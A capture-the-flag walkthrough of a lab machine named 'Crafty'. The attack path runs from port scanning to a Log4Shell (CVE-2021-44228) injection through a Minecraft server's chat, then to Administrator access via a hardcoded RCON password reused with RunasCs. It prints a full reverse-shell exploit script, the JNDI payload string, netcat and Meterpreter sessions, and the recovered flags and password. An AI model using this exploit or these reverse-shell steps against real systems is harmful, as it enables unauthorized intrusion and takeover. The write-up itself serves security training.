



## Initial Enumeration

As usual we are provided a single entry point as an IPv4 **10.10.11.249**

&nbsp;And we know as well that the machine is Windows OS based:



So let's start by poking around and getting an idead of what we are dealing with..

```
PORT      STATE SERVICE   REASON          VERSION
80/tcp    open  http      syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://crafty.htb
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
25565/tcp open  minecraft syn-ack ttl 127 Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (88%)
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2019 (88%)
No exact OS matches for host (test conditions non-ideal).
```

Ah we have a Minecraft server? What about other serviced on the UDP protocoll instead?

```
┌──(root㉿kali)-[/home/millycash/Downloads]
└─# nmap -sU -F 10.10.11.249 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-13 09:07 CET
Nmap scan report for 10.10.11.249
Host is up (0.051s latency).
All 100 scanned ports on 10.10.11.249 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 6.50 seconds
```

Ok then seems like we have only 2 services that might hold a foothold.

* * *

## HTTP

Nmap identified the website running on the default port 80/TCP as *"http://crafty.htb"* so adding that to out local hosts file we can surf the website and find that might be another VHOST on the machine over "*http://play.crafty.htb"*?


Checking the HTML source code show that all other parts of the website are just a placeholder so before going on the other VHOST I will fuzz for hidden web files/directories:

```
_|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/millycash/Downloads/reports/http_crafty.htb/__24-02-13_09-12-48.txt

Target: http://crafty.htb/

[09:12:48] Starting: 
[09:12:49] 403 -  312B  - /%2e%2e//google.com
[09:12:49] 301 -  144B  - /js  ->  http://crafty.htb/js/
[09:12:49] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[09:12:52] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[09:13:00] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[09:13:01] 301 -  145B  - /css  ->  http://crafty.htb/css/
[09:13:05] 301 -  145B  - /img  ->  http://crafty.htb/img/
[09:13:06] 301 -  145B  - /index.html  ->  http://crafty.htb/home
[09:13:07] 403 -    1KB - /js/

Task Completed
```

Not much at all, but what about other VHOST on the server ?

```
┌──(root㉿kali)-[/home/millycash/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://crafty.htb/" -H "Host: FUZZ.crafty.htb" -fl 2

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://crafty.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.crafty.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 2
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 1081 req/sec :: Duration: [0:00:18] :: Errors: 0 ::
```

That's strange FFUF can't find any other VHOST by fuzzing the Header Host,  But even adding **play.crafty.htb**  to our hosts file it redirects us to same website so it might be a dead end anyway?

```
┌──(root㉿kali)-[/home/millycash/Downloads]
└─# curl http://play.crafty.htb/                                                      
<head><title>Document Moved</title></head>
<body><h1>Object Moved</h1>This document may be found <a HREF="http://crafty.htb">here</a></body>
```

* * *

## Port 25565

This service have been identified by our previous NMAP scan as a Minecraft server running on specific version **1.16.5**

Googling around seems like we have an article about a Java vulnerability that resembles Log4j?

https://nodecraft.com/blog/service-updates/minecraft-java-edition-security-vulnerability

But after several tries I checked the tips and apparently we need to use a Minecraft launcher to interact with this shitty service:

https://github.com/MultiMC/Launcher

But it's a mess to compile so looking around seems like there is a already Java/JAR compiled that could be used straight from the box:

https://prismlauncher.org/download/linux/

And linking in a temporary Microsoft account it opens for Multiplayer. Now adding the server to the client:



And choosing the exploit we fould about:

https://github.com/kozmer/log4j-shell-poc

We need to adjust the script to match cmd.exe/powershell.exe instead:

```
#!/usr/bin/env python3

import argparse
from colorama import Fore, init
import subprocess
import threading
from pathlib import Path
import os
from http.server import HTTPServer, SimpleHTTPRequestHandler

CUR_FOLDER = Path(__file__).parent.resolve()


def generate_payload(userip: str, lport: int) -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="powershel.exe";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
""" % (userip, lport)

    # writing the exploit to Exploit.java file

    p = Path("Exploit.java")

    try:
        p.write_text(program)
        subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
    except OSError as e:
        print(Fore.RED + f'[-] Something went wrong {e}')
        raise e
    else:
        print(Fore.GREEN + '[+] Exploit java class created success')


def payload(userip: str, webport: int, lport: int) -> None:
    generate_payload(userip, lport)

    print(Fore.GREEN + '[+] Setting up LDAP server\n')

    # create the LDAP server on new thread
    t1 = threading.Thread(target=ldap_server, args=(userip, webport))
    t1.start()

    # start the web server
    print(f"[+] Starting Webserver on port {webport} http://0.0.0.0:{webport}")
    httpd = HTTPServer(('0.0.0.0', webport), SimpleHTTPRequestHandler)
    httpd.serve_forever()


def check_java() -> bool:
    exit_code = subprocess.call([
        os.path.join(CUR_FOLDER, 'jdk1.8.0_20/bin/java'),
        '-version',
    ], stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)
    return exit_code == 0


def ldap_server(userip: str, lport: int) -> None:
    sendme = "${jndi:ldap://%s:1389/a}" % (userip)
    print(Fore.GREEN + f"[+] Send me: {sendme}\n")

    url = "http://{}:{}/#Exploit".format(userip, lport)
    subprocess.run([
        os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
        "-cp",
        os.path.join(CUR_FOLDER, "target/marshalsec-0.0.3-SNAPSHOT-all.jar"),
        "marshalsec.jndi.LDAPRefServer",
        url,
    ])


def main() -> None:
    init(autoreset=True)
    print(Fore.BLUE + """
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc
""")

    parser = argparse.ArgumentParser(description='log4shell PoC')
    parser.add_argument('--userip',
                        metavar='userip',
                        type=str,
                        default='localhost',
                        help='Enter IP for LDAPRefServer & Shell')
    parser.add_argument('--webport',
                        metavar='webport',
                        type=int,
                        default='8000',
                        help='listener port for HTTP port')
    parser.add_argument('--lport',
                        metavar='lport',
                        type=int,
                        default='9001',
                        help='Netcat Port')

    args = parser.parse_args()

    try:
        if not check_java():
            print(Fore.RED + '[-] Java is not installed inside the repository')
            raise SystemExit(1)
        payload(args.userip, args.webport, args.lport)
    except KeyboardInterrupt:
        print(Fore.RED + "user interrupted the program.")
        raise SystemExit(0)


if __name__ == "__main__":
    main()
```

next run the script:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Crafty/log4j-shell-poc]
└─# python3 poc.py --userip 10.10.14.2 --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

Picked up JAVA_TOOL_OPTIONS: -Dsun.java2d.uiScale=2
[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.2:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Picked up JAVA_TOOL_OPTIONS: -Dsun.java2d.uiScale=2
Listening on 0.0.0.0:1389
```

Setup a NC listening on port 9001 and send the JDNI string in Minecraft should invoke a revshell!

Now launching the game spawn a new session:



And checking the settings for commands seems like with "t" can spawn a chat function where we could inject our payload:

```
${jndi:ldap://10.10.14.2:1389/a}
```

Something seems happening on the LDAP server, but getting nothing back from NC:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Crafty/log4j-shell-poc]
└─# python3 poc.py --userip 10.10.14.2 --webport 8000 --lport 5555

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

Picked up JAVA_TOOL_OPTIONS: -Dsun.java2d.uiScale=2
[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.2:1389/a}
[+] Starting Webserver on port 8000 http://0.0.0.0:8000

Picked up JAVA_TOOL_OPTIONS: -Dsun.java2d.uiScale=2
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.2:8000/Exploit.class
10.10.11.249 - - [13/Feb/2024 11:52:40] "GET /Exploit.class HTTP/1.1" 200 -
Send LDAP reference result for a redirecting to http://10.10.14.2:8000/Exploit.class
10.10.11.249 - - [13/Feb/2024 11:52:40] "GET /Exploit.class HTTP/1.1" 200 -
Send LDAP reference result for a redirecting to http://10.10.14.2:8000/Exploit.class
10.10.11.249 - - [13/Feb/2024 11:52:40] "GET /Exploit.class HTTP/1.1" 200 -
```

And now we have a shell baby!

```
┌──(root㉿kali)-[/home/millycash/Downloads]
└─# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.249] 49693
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\users\svc_minecraft\server>
```

* * *

## Road to User.txt

Now we found out that we are logged in as svc\_minecraft user so let's poke around and check if we can grab our first flag?

```
PS C:\users\svc_minecraft\Desktop> ls
ls


    Directory: C:\users\svc_minecraft\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        2/13/2024   2:45 AM             34 user.txt                                                              


PS C:\users\svc_minecraft\Desktop> cat user.txt
cat user.txt
bb5cd164f0ee69399cccf8fa212ace19
PS C:\users\svc_minecraft\Desktop>
```

Nice that was easy!

* * *

## Road to Root.txt

Now that we conquered the first flag we need to find a way to escalate to Administrator, so looking around seems like there is no other users except svc\_minecraft and Administrator which should make it even easier since we don't need to perform several steps on PE.

```
PS C:\users> ls
ls


    Directory: C:\users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       10/10/2020   8:17 AM                Administrator                                                         
d-r---       10/26/2023   7:03 PM                Public                                                                
d-----       11/21/2023  12:53 AM                svc_minecraft
```

Checking on our user permissions seems like no particular tokens are assigned to the current user nor is part of strange group membership that could be used for PE:

```
PS C:\users> whoami /all
whoami /all

USER INFORMATION
----------------

User Name            SID                                           
==================== ==============================================
crafty\svc_minecraft S-1-5-21-4088429403-1159899800-2753317549-1002


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Again I looked around for possible installed SW but nothing out of ordinary came out. So going back on the SVC\_Document folder let's examine that server folder and seems there is a Java plugin installed?

```
cd ..
PS C:\users\svc_minecraft\server> ls
ls


    Directory: C:\users\svc_minecraft\server


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        2/13/2024   3:08 AM                logs                                                                  
d-----       10/27/2023   2:48 PM                plugins                                                               
d-----        2/13/2024   3:08 AM                world                                                                 
-a----       11/14/2023  10:00 PM              2 banned-ips.json                                                       
-a----       11/14/2023  10:00 PM              2 banned-players.json                                                   
-a----       10/24/2023   1:48 PM            183 eula.txt                                                              
-a----       11/14/2023  11:22 PM              2 ops.json                                                              
-a----       10/24/2023   1:43 PM       37962360 server.jar                                                            
-a----       11/14/2023  10:00 PM           1130 server.properties                                                     
-a----        2/13/2024   3:09 AM            106 usercache.json                                                        
-a----       10/24/2023   1:51 PM              2 whitelist.json                                                        


PS C:\users\svc_minecraft\server> cd plugins
cd plugins
PS C:\users\svc_minecraft\server\plugins> ls
ls


    Directory: C:\users\svc_minecraft\server\plugins


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       10/27/2023   2:48 PM           9996 playercounter-1.0-SNAPSHOT.jar                                        


PS C:\users\svc_minecraft\server\plugins>
```

Now to download that file i will upgrade the session to a Meterpreter so I can use a more stable channel with more functions..

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.2:8888 
[*] Sending stage (201798 bytes) to 10.10.11.249
[*] Meterpreter session 1 opened (10.10.14.2:8888 -> 10.10.11.249:49684) at 2024-02-13 12:16:27 +0100

meterpreter > ls
Listing: C:\Temp
================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100777/rwxrwxrwx  7168  fil   2024-02-13 12:16:11 +0100  reverse.exe
```

And download that plugin for Reverse engineriing. Now since it's a java file we can use JD-GUI for reversing the code as is simple, light and works just fine:

http://java-decompiler.github.io/

Now scouting around the code seems like we have a RCON password hardcoded into a JAVA class(Playercounter.class):

```
package htb.crafty.playercounter;

import java.io.IOException;
import java.io.PrintWriter;
import net.kronos.rkon.core.Rcon;
import net.kronos.rkon.core.ex.AuthenticationException;
import org.bukkit.plugin.java.JavaPlugin;

public final class Playercounter extends JavaPlugin {
  public void onEnable() {
    Rcon rcon = null;
    try {
      rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());
    } catch (IOException e) {
      throw new RuntimeException(e);
    } catch (AuthenticationException e2) {
      throw new RuntimeException(e2);
    } 
    String result = null;
    try {
      result = rcon.command("players online count");
      PrintWriter writer = new PrintWriter("C:\\inetpub\\wwwroot\\playercount.txt", "UTF-8");
      writer.println(result);
    } catch (IOException e3) {
      throw new RuntimeException(e3);
    } 
  }
  
  public void onDisable() {}
```

Since it's writing into ISS Root folder I guess it might be same password used by Administrator?

Now since we can just switch user we need to use RunAs to invoke a new shell as Administrator.

https://github.com/antonioCoco/RunasCs

And just sending a command as admin unveil the last flag baby!

```
PS C:\Temp> ./RunasCs.exe Administrator s67u84zKq8IXw "cmd /c type C:\Users\Administrator\Desktop\root.txt"
./RunasCs.exe Administrator s67u84zKq8IXw "cmd /c type C:\Users\Administrator\Desktop\root.txt"

2ceca5c4bdbdb3c7f054ab956b4a4721
PS C:\Temp>
```